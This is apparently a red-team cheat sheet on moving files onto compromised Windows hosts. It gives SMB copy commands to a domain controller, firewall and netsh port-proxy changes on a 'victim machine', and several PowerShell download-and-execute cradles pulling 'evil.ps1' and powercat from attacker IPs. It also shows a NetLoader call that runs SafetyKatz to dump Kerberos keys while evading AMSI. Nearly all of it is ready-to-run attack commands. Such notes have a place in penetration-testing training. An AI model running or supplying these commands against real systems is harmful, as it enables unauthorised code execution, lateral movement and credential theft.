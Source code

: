 # Transfer Files

### SMB Shares

```batch
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y 
```

### HTTP Server

Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```batch
:: Attacker Machine
python3 -m http.server -port 80
:: Open the port where the files are hosted. Need Admin Access
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
:: Verify if port is open or closed
netstat -an
```

Port forward to avoid firewall using netsh on target machine

```batch
:: Victim Machine
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
```

Download the file on target machine

```powershell
# Download and store
(New-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/<File>', '<Dest Path>')

# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/<File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

More options

```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

PowerShell v3+

```powershell
# UseBasicParsing is important sometime
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```
